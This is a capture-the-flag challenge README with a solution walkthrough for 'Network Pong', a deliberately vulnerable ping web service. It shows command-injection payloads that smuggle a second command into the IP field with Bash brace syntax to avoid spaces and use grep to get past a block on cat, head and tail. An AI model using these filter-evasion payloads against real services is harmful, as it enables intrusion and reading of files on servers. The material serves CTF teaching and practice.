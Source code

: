 # [Web 100] Network Pong

This challenge utilizes non-standard command injection without the use of spaces.

## Building

Please deploy to run uWSGI, and ensure Bash is located at `/bin/bash`.


## Solution

First, we will run it with an intended payload (say, `1.1.1.1`), and notice it runs fine.

If we try to add a semicolon to the end of the payload, we get a better idea of what is going on:

```bash
/bin/bash: -c: line 0: syntax error near unexpected token `}'
/bin/bash: -c: line 0: `{ping,-c,1,1.1.1.1;}'
```

In Bash, you can use a curly-brace syntax to run commands instead of using the standard space-deliminated syntax. However, we need to somehow end the Ping command and start another command.

Something like `1.1.1.1} && {cat,flag.txt` seems appealing, but we see we get an error ("Please only enter the IP or domain!"). Removing spaces, we get another error:
```bash
1.1.1.1}&&{cat,flag.txt
```
> Error: Do not mention body parts, felines, or body parts of felines.

This is a somewhat-lighthearted way to say that *we cannot use `cat`, `head`, or `tail`*. However, `grep` is fair game:

```bash
1.1.1.1}&&{grep,-r,sun
```

This returns our flag:

> PING 1.1.1.1 (1.1.1.1) 56(84) bytes of data.

>64 bytes from 1.1.1.1: icmp_seq=1 ttl=57 time=14.1 ms

>--- 1.1.1.1 ping statistics ---

>1 packets transmitted, 1 received, 0% packet loss, time 0ms

> rtt min/avg/max/mdev = 14.195/14.195/14.195/0.000 ms

> flag.txt:sun{temp_flag}

To test, make sure the flag appears on this request:

> GET /?ip=1.1.1.1%7D%26%26%7Bgrep%2C-r%2Csun&submit=Play

## Flag Customization

The flag can be any file accessible to the challenge process, because `grep`.

